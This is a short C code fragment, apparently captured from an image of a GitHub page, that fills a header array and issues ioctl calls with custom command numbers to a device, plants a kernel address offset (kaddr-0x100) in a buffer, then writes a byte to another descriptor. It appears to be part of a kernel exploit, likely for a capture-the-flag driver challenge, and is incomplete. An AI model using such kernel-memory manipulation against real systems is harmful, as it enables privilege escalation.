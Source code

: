 ```c=
	header[2] = -header[3];
	header[0] = 9;
	long long x[0x3*2*1] = {};
	header[1] = (long long)&x;
	if( ioctl(fd,0x30003,header) ) exit(-6);
	x[3] =  kaddr-0x100;
	if( ioctl(fd,0x30002,header) ) exit(-7);
	
	char cc;
	write(fdx,&cc,1);
}	


```

